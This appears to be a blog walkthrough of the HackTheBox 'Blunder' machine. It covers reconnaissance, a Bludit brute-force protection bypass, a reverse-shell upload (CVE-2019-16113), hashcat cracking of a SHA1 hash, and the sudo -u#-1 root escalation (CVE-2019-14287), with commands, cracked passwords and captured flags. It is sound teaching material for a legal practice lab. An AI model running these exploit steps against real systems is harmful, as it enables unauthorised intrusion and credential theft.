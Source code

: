 ```yaml
---
layout: post
title: HackTheBox - Blunder
date: 2021-01-20 17:37:00 +0100
categories: [Hackthebox walkthroughs, Linux, Easy]
tags: [htb-linux-easy, Bludit, searchsploit, brute-force, bruteforce protection bypass, chaining exploits, CVE-2019-17240, CVE-2019-16113, cewl, custom wordlist, reverse-shell, linpeas, hashcat, Rule-based Attack, sudo undeflow, CVE-2019-14287, writeup, oscp-prep]
image: /assets/img/htb/machines/linux/easy/blunder/Blunder.png
---
```


## Enumeration

### `nmap` scan

{% highlight bash %}
$ nmap -min-rate 5000 --max-retries 1 -sV -sC -p- -oN Blunder-full-port-scan.txt 10.10.10.191
PORT   STATE  SERVICE VERSION
21/tcp closed ftp
80/tcp open   http    Apache httpd 2.4.41 ((Ubuntu))
|_http-generator: Blunder
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Blunder | A blunder of interesting facts
{% endhighlight %}

### Apache/2.4.41 (port 80)

![Apache 2.4.41](/assets/img/htb/machines/linux/easy/blunder/80.png)

#### `gobuster`

{% highlight bash %}
$  gobuster dir -u http://$TARGET/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -x .txt
#...
/0 (Status: 200)
/LICENSE (Status: 200)
/about (Status: 200)
/admin (Status: 301)
/cgi-bin/ (Status: 301)
/robots.txt (Status: 200)
/todo.txt (Status: 200)
#...
{% endhighlight %}

#### `/todo.txt`

![todo.txt](/assets/img/htb/machines/linux/easy/blunder/80-todo.png)

We identified a potential user: `fergus`

#### `/admin` (BLUDIT)

On `/admin` we can see there is a [Bludit](https://www.bludit.com/) (CMS) login page:

![Bludit](/assets/img/htb/machines/linux/easy/blunder/80-admin-bludit.png)

Looking at HTML source code, I found that:

![Bludit version](/assets/img/htb/machines/linux/easy/blunder/80-bludit-version.png)

I assumed that **Bludit**'s version was `3.9.2`: 

#### searchsploit

There are some exploits against Bludit:

![searchsploit](/assets/img/htb/machines/linux/easy/blunder/searchsploit.png)

`multiple/webapps/48701.txt` allows us to obtain a reverse shell but it requires authentification.

`php/webapps/48942.py` can be used to bypass brute force protection.

## Foothold

### CeWL - Custom Word List generator

Using a cool tool named `cewl`, we can generate a custom wordlist based on website keywords:

{% highlight bash %}
$ cewl http://10.10.10.191/ > cewl-wordlist.txt
{% endhighlight %}

![cewl](/assets/img/htb/machines/linux/easy/blunder/cewl.png)

### 48942.py - Bludit Auth Bruteforce Bypass

I copied `/usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt` as `users.txt` and I added `fergus` to this wordlist .

Then I ran `48942.py`: 

{% highlight bash %}
$  python3 48942.py -l http://10.10.10.191/admin/login.php -u users.txt -p cewl-wordlist.txt
{% endhighlight %}

> The trick part of this bruteforce protection bypass is the HTTP header `X-FORWARDED-FOR` as explained in [Bludit Brute Force Mitigation Bypass](https://rastating.github.io/bludit-brute-force-mitigation-bypass/).

SUCCESS! The password of `fergus` is `RolandDeschain`:

![SUCCESS](/assets/img/htb/machines/linux/easy/blunder/SUCCESS.png)

### 48701.py - Directory Traversal

`multiple/webapps/48701.txt` comes with a python script that need some parameters:
- target URL
- a valid username
- a valid password
- a malicious PNG image containing PHP code with reverse shell (we can use `msfvenom`)
- an `.htaccess` file with specifics instructions  

![48701.py](/assets/img/htb/machines/linux/easy/blunder/48701.png)

### Reverse shell

Then we have to visit [http://10.10.10.191/bl-content/tmp/temp/evil.png](http://10.10.10.191/bl-content/tmp/temp/evil.png) and we got a shell:

![reverse-shell](/assets/img/htb/machines/linux/easy/blunder/reverse-shell.png)

> I used `msfvenom` to generate `evil.png` in the first place, but finally I replaced it with [tiny PHP/bash reverse shell](https://gist.github.com/rshipp/eee36684db07d234c1cc) because I couldn't upgrade my shell using `msfvenom` solution.

After getting a shell, I executed `linpeas.sh` and I saw a potential password in `/var/www/bludit-3.10.0a/bl-content/databases/users.php`:

![password](/assets/img/htb/machines/linux/easy/blunder/DB_PASS.png)

{% highlight php %}
$ cat /var/www/bludit-3.10.0a/bl-content/databases/users.php    
<?php defined('BLUDIT') or die('Bludit CMS.'); ?>
{
    "admin": {
        "nickname": "Hugo",
        "firstName": "Hugo",
        "lastName": "",
        "role": "User",
        "password": "faca404fd5c0a31cf1897b823c695c85cffeb98d",
        "email": "",
        "registered": "2019-11-27 07:40:55",
        "tokenRemember": "",
        "tokenAuth": "b380cb62057e9da47afce66b4615107d",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
        "facebook": "",
        "instagram": "",
        "codepen": "",
        "linkedin": "",
        "github": "",
        "gitlab": ""}
}
{% endhighlight %}

It is a hexadecimal string of length 40 so it's certainly a hash and not a password!

![SHA1](/assets/img/htb/machines/linux/easy/blunder/SHA1.png)

### `hashcat` rule based attack

Let's try to crack it via `hashcat`:

{% highlight bash %}
$ echo -n "faca404fd5c0a31cf1897b823c695c85cffeb98d" > hash.txt 
$ hashcat -m 100 hash.txt /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule
#...
faca404fd5c0a31cf1897b823c695c85cffeb98d:Password120
#...
{% endhighlight %}

> We could also use [md5decrypt.net](https://md5decrypt.net/en/Sha1/).

## User (hugo)

We can log in as `hugo` with the password we just found: `Password120`.

{% highlight bash %}
www-data@blunder:/tmp$ su hugo
Password: Password120
hugo@blunder:~$ id
uid=1001(hugo) gid=1001(hugo) groups=1001(hugo)
hugo@blunder:~$ cat user.txt
4136078049bf0679491413a880cb1b42
hugo@blunder:~$ sudo -l
Password: Password120

Matching Defaults entries for hugo on blunder:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hugo may run the following commands on blunder:
    (ALL, !root) /bin/bash
{% endhighlight %}

`sudo`'s version is `1.8.25` is vulnerable to `CVE-2019-14287` that could allow privilege escalation, even though the configuration explicitly disallows this.

The vulnerability affects all Sudo versions prior to the latest released version `1.8.28`.

![sudo version](/assets/img/htb/machines/linux/easy/blunder/sudo.png)

![google search](/assets/img/htb/machines/linux/easy/blunder/google.png)

![attack scenario](/assets/img/htb/machines/linux/easy/blunder/root-hacking.png)

## Privesc to root

{% highlight bash %}
hugo@blunder:~$ sudo -u#-1 /bin/bash
sudo -u#-1 /bin/bash
Password: Password120
root@blunder:/home/hugo# cat /root/root.txt
cat /root/root.txt
dc6cb3733fe01dafef1eecfc147f56eb
{% endhighlight %}

___

## Useful links

- [Bludit Brute Force Mitigation Bypass](https://rastating.github.io/bludit-brute-force-mitigation-bypass/)
- [CVE-2019-17240 - Bludit bypass a brute-force protection](https://nvd.nist.gov/vuln/detail/CVE-2019-17240)
- [CVE-2019-16113 - Bludit remote code execution](https://nvd.nist.gov/vuln/detail/CVE-2019-16113)
- [Rule-based Attack](https://hashcat.net/wiki/doku.php?id=rule_based_attack)
- [sudo 1.8.27 - Security Bypass](https://www.exploit-db.com/exploits/47502)
- [CVE-2019-14287 - sudo underflow](https://nvd.nist.gov/vuln/detail/CVE-2019-14287)
- [Sudo Flaw Lets Linux Users Run Commands As Root Even When They're Restricted](https://thehackernews.com/2019/10/linux-sudo-run-as-root-flaw.html)